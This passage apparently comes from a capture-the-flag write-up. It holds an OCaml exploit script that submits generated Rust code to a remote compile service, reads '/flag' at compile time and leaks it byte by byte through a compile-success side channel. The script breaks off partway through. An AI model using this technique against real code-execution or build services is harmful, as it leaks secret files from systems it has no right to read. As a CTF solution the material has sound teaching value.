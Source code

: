 Complete solution (in Ocaml :P) using binary search:

```OCaml
(* usage: ocaml unix.cma str.cma exp.ml *)
open Unix

let connect_service addr port =
    let inet_addr = (gethostbyname addr).h_addr_list.(0) in
    let sockaddr = ADDR_INET (inet_addr, port) in
    let sock = socket PF_INET SOCK_STREAM 0 in
    connect sock sockaddr;
    let outchan = out_channel_of_descr sock in
    let inchan = in_channel_of_descr sock in
    (inchan, outchan)

let done_regexp = Str.regexp "Done"

(** generate exploit Rust code *)
let gen_exploit_code index ch = 
    Printf.sprintf "#![feature(const_fn, asm)]

const VALUE: i32 = (include_bytes!(\"/flag\")[%d] as i8 - b'\\x%02x' as i8) as i32;

const fn guess() -> bool {
    VALUE.is_negative()
}

extern fn test() {}

fn main() {
    if guess() {
    } else {
        unsafe { asm!(\"call $0\" :: \"i\"(test) :: \"intel\"); }
    }
}
EOF
" index ch

(**
 * check if is less than character ch
 *)
let is_less index ch ~host ~port =
    let pass_hint inchan =
        for i = 1 to 4 do
            input_line inchan |> ignore;
            done in
    let inchan, outchan =
        connect_service host port in
    begin
        pass_hint inchan;
        let code = gen_exploit_code index ch in
        begin
            (* print_endline ("sending: " ^ code); *)
            output_string outchan code;
            flush outchan;
            input_line inchan |> ignore; (* compiling... *)
            let res = input_line inchan in
            begin
                print_endline res;
            if Str.string_match done_regexp res 0 then
                true
            else
                false
            end
```